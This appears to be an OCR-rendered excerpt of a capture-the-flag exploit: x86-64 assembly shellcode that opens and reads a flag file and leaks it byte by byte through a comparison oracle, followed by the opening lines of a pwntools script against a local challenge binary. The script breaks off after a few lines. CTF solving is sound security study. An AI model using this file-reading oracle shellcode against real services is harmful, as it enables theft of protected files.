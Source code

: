 ```c

  open_flag:
    mov rax, 0x2;
    mov rdi, flag_addr;
    xor rsi, rsi;
    xor rdx, rdx;
    syscall
    mov r15, rax;

  read_flag:
    xor rax, rax
    mov rdi, r15;
    mov rsi, flag_addr;
    mov rdx, 0x40;
    syscall;

  get_flag_idx_byte:
    xor rax, rax;
    xor rdi, rdi;
    mov rsi, flag_idx_byte;
    mov rdx, 0x2;
    syscall;
    mov r13b, byte [rsi];

  get_oracle_byte:
    xor rax, rax;
    xor rdi, rdi;
    mov rsi, oracle_byte_addr;
    mov rdx, 0x1;
    syscall;

  cmp_flag_byte:
    mov r14b, byte [rbp+r13];
    mov r15b, byte [rsi];
    cmp r14, r15;
    je win;
    jne fail;

  fail:
    jmp get_oracle_byte;
    jmp cmp_flag_byte;

  win:
    int3

  _start:
    xor r13, r13;
    call open_flag;
    call read_flag;
    call get_flag_idx_byte
    call get_oracle_byte;
    call cmp_flag_byte;

 ```
```python
#!/usr/bin/env python3

from pwn import *
from time import sleep
from itertools import cycle
import os

exe = context.binary = ELF("./chall")
```